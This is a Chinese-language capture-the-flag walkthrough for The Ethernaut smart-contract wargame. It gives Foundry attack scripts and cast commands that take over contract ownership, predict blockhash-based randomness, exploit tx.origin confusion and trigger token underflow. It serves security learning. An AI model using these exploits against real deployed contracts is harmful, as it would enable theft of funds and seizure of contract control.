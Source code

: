# [The Ethernaut](https://ethernaut.openzeppelin.com)

一个非常有意思的网站，提供了一系列题目

以下内容(可能)省略：
- instance合约地址
- rpc url
- 私钥
- player地址

## Fallback

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import {Fallback} from "../src/Fallback.sol";
import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";
contract AttackScript is Script{
    function run() public{
        vm.startBroadcast();
        new Attack{value: 0.0000000000002 ether}().exploit();
        console.log("Attack Success");
        vm.stopBroadcast();
    }
}
contract Attack{
    Fallback public target = Fallback(payable(address()));
    constructor() payable {
        require(msg.value >= 0.000000000000002 ether);
    }
    function exploit() public{
        target.contribute{value: 0.000000000000001 ether}();
        (bool success, ) = payable(target).call{value: 0.000000000000001 ether, gas: 500000}(""); //gas要给够
        require(success, "Receive failed");
    }
}
```
但是吧，这只会让owner变成上述合约，而题目要求owner为player，即metamask里登记的账号。需要手动cast send更新owner
```sh
cast send "" "contribute()" --from "" --value 0.0000000000000011ether
cast send "" "withdraw()" --from ""
```
## Fallout

并非constructor（

```sh
cast send "" "Fal1out()" --from ""
cast send "" "collectAllocations()" --from ""
```

## Coin Flip

`block.number`是可以预测的。一个要注意的地方是，题目检查了`lastHash != blockValue`，因此两个转账之间不能太快，要给`block.number`自增的时间
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import {CoinFlip} from "../src/CoinFlip.sol";
import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";
contract AttackScript is Script {
    function run() public {
        vm.startBroadcast();
        new Attack().exploit();
        vm.stopBroadcast();
    }
}
contract Attack {
    CoinFlip public target = CoinFlip(address());
    uint256 public constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function exploit() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        target.flip((blockValue / FACTOR) == 1);
    }
}
```
```sh
for i in {1..10}; do
    forge script script/Attack.s.sol:AttackScript --rpc-url $ETH_RPC_URL --private-key $PRIVATE_KEY --broadcast
    sleep 15
done
```
## Telephone

简单来说，可以将`msg.sender`理解成调用函数的合约地址；而`tx.origin`是调用链的原始发起者，比如用户的钱包地址。只要用foundry来解这题（remix应该也行，但我配置不好……），两者就一定不一样
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import {Telephone} from "../src/Telephone.sol";
import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";
contract AttackScript is Script {
    function run() public {
        vm.startBroadcast();
        new Attack().exploit();
        vm.stopBroadcast();
    }
}
contract Attack {
    Telephone public target = Telephone(address());
    function exploit() public {
        target.changeOwner(address());
    }
}
```
## Token

balances用uint256存储token数量，但没检查溢出
```sh
cast send "" "transfer(address,uint256)" "任意一个不等于player的地址" 21 --from ""
```